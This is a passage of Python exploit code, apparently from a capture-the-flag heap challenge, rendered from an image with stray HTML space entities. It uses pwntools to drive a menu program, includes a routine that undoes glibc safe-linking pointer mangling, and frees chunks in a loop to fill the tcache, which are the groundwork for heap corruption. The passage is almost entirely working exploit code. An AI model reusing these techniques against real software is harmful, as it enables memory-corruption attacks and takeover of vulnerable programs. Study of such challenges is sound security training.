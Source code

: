 ```python
&nbsp;   p.recvuntil(b"data: ")

&nbsp;   leak = p.recvline().strip()

&nbsp;   return leak



def update(idx, data):

&nbsp;   p.sendline(b'3')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendafter(b'data: ', data)



def delete(idx):

&nbsp;   p.sendline(b'4')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())



def decrypt(cipher):

&nbsp;   key = 0

&nbsp;   plain = 0



&nbsp;   for i in range(1, 6):

&nbsp;       bits = 64-12\*i

&nbsp;       if bits < 0:

&nbsp;           bits = 0

&nbsp;       plain = ((cipher ^ key) >> bits) << bits

&nbsp;       key = plain >> 12



&nbsp;   return plain



create(7, 0x70, b'a') 



for \_ in range(7):

&nbsp;   create(9, 0x60, b'a')

&nbsp;   delete(9)


```